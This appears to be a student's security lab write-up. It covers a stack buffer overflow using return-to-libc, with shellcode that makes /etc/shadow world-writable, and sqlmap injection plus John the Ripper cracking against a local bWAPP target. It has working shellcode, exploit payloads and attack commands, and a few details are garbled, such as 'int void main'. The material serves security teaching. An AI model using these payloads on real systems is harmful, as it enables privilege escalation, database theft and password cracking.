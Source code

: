 # TangTamNhu
# Lab #1, 20110431, Tang Tam Nhu, INSE3308E_03FIE
# Task 1: Software buffer overflow attack
 
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in C. This shellcode executes chmod 777 /etc/shadow without having to sudo to escalate privilege
```
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x89\xc3\x31\xd8\x50\xbe\x3e\x1f"
"\x3a\x56\x81\xc6\x23\x45\x35\x21"
"\x89\x74\x24\xfc\xc7\x44\x24\xf8"
"\x2f\x2f\x73\x68\xc7\x44\x24\xf4"
"\x2f\x65\x74\x63\x83\xec\x0c\x89"
"\xe3\x66\x68\xff\x01\x66\x59\xb0"
"\x0f\xcd\x80";

int
void main() {
    int (*ret)() = (int(*)())code;
}
```
**Question 1**:
- Compile both C programs and shellcode to executable code. 
- Conduct the attack so that when C executable code runs, shellcode willc also be triggered. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: Must conform to below structure:
  
Description text (optional)
- We will sequentially create the two C files specified above, named `vul.c` and `shel.o`.
- HThis is the stack frame of `vul.c` program:
![stackframe](./img/stack-frame.png)

- Compile `vul.c` program and `shel.c` program to executable code.
      
![compileprogram](./img/compile-program.png)


- Turn off the randomly assigned stack value and use an older bash.

![turnoff](./img/turnoff.png)

- Create environmet variable `PRELOAD` with `export`
  
![preload](./img/pwd.png)

- Only the root user can write to  /etc/shadow file due to we need to set uid bit for shel.o and write permissions to /etc/shadow.

![etc](./img/etc.png)

- We need to find the address of `system`, `exit` and `PRELOAD` variable and load `vul.o` into `gdb` and find them.
  - Address value of system: `0xf7e50db0` will be inserted with format `\xb0\x0d\xe5\xf7`
  - Address value of exit: `0xf7e449e0` will be inserted with format `\xe0\x49\xe4\f7`
  - Address value of the string of `PRELOAD`: `0xffffd8dd` will be inserted with format `\xdd\xd8\xff\xff`
 
![sys](./img/sys.png)
![img3](./img/preload.png)

- Examine the stack frame. We need to add 20 bytes of padding, followed by the system address (4 bytes), exit (4 bytes), and preload (4 bytes). Thus, this is our directive:
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\xdd\xd8\xff\xff')")
```
![python](./img/python.png)


# Task 2: Attack on the database of bWapp 
- Install bWapp (refer to quang-ute/Security-labs/Web-security). 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**: 
- Use the command below to get database
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --batch
```
![sql2](./img/image-5.png) 

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**: 
- Use the command below to get tables
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dbs --tables --batch

```
![sql3](./img/image-6.png)

- Use the command below to get users information and crack the password
```
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=ad&Password=asd" --dump --batch
```
![sql4](./img/image-8.png)

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
- We already dumpped and stored the hashed password to a file for further exploit.
- To identity the hash algorithm, we will use hashid which is a library in python (hashid -mj hash_pw.txt)
![alt text](./img/image-9.png)
- According to Hashid, john, notably the raw-sha1 format, can be used to crack the encryption: https://github.com/openwall/john/blob/bleeding-jumbo/doc/INSTALL-UBUNTU
```
    john --format=Raw-SHA1 hash_pw.txt
```
![alt text](./img/image-10.png)
